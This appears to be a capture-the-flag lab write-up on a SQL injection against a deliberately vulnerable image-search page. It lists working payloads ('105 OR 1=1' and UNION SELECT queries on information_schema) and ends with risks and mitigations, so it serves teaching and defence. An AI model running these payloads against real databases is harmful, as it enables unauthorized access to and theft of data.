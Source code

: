 # SQL Injection - Member Search Image

A SQL injection attack consists of insertion of a SQL query via the input data from the client to the application. By interfering with the requests that an application makes to it's database.

## Breach type

* A03:2021 Injection 
    * CWE-89: SQL Injection (In-band SQLi):
        * Error-based SQLi: exploit error messages thrown by the database server to obtain information about the structure of the database.
        * Union-based SQLi: exploit the UNION SQL operator to combine the result of two or more SELECT statements into a single result.
* A01:2021 Broken Access Control
    * CWE-200: Exposure of Sensitive Information to an Unauthorized Actor.

## How to find the flag

* Go to the `SEARCH IMAGE` button at the end of the page, url = `?page=searchimg`

Enter the following commands:

* `105 OR 1=1`
    * By injecting `105 OR 1=1` into a vulnerable SQL query, the attacker attempts to manipulate the logic of the query to always return true (1=1). 
    * This can bypass authentication or access control mechanisms if the application does not properly sanitize input. 
    * In this context the command displays the member list. The fourth one has the fields : `id (105 OR 1=1)`, `Title: (Hack me ?)`, `Url: (borntosec.ddns.net/images.png)`.
    * This Url has no result for now
    * We now need to find where the information from the image table are stored in the database.

* `105 OR 1=1 UNION SELECT table_name, table_schema FROM information_schema.tables `
    * With this command we display all the schemas and their tables and discover that there's a table called 'Member_images'.
    * This table is probably the best place to find the flag. 

* `105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns`
    * The intention behind this SQL line is to retrieve the names of tables and their respective columns from the information_schema.columns table.
    * We now have a list of all the columns of the 'Member_images' table

* `105 OR 1=1 UNION SELECT comment, 1 FROM Member_images.list_images`
    * In the comment field corresponding to the "Hack me ?" image we find a hashed code in MD5 : 1928e8083cf461a51303633093573c46. With it we find an explanation of how to retrieve the flag : `If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`
    * When we decode MD5 we find "albatroz".

## Risks

* Sensitive informations data breaches such as logins, passwords, bank informations, etc.
* Then Attackers can impersonate users or impersonate database administrator and obtain all database privileges.
* They can alter data in database and add new database for example in a financial app : alter balance, transaction, transfer money.
* They can delete records from database, even if the admin makes database backups, this could affect application availability until the database is restored. 
* Attackers can also inject informations to bypass authentication pages to read and write files directly into the server such as backdoors, viruses.
* In some database servers we can access to the operating system from database server.

## How to avoid

* Use Parameterized Queries:
    * Don't trust any user input. Utilize prepared statements or parameterized queries with placeholders for user input. 
    This ensures that input values are not directly concatenated into the SQL query string and avoid SQL injection.
    * All input must be sanitize, to remove potential malicious code element such as special characters like single quotes. They're used in SQLi attacks.
    * Most languages and frameworks offer methods to escape special characters.

* Turn off the visibility of database errors on your production sites, they can be used to gain information about your database.

* Use `LIMIT` eveywhere in the Database to limit the data display in case of attack

* Use SQLi detection tools each time app is update, in the event the vulnerability cannot be fixed immediately, using a firewall allows you to patch while the vulnerability was fixed.

## Sources
* [OWASP A03:2021](https://owasp.org/Top10/fr/A03_2021-Injection/)
* [SQL Injection impact and good practice](https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/)
* [SQL Injection table name](https://www.sqlinjection.net/table-names/)
* [SQL Injection column name](https://www.sqlinjection.net/column-names/)
* [SQL Injection def](https://www.acunetix.com/websitesecurity/sql-injection/)
* [SQL Injection source](https://www.invicti.com/learn/in-band-sql-injection/)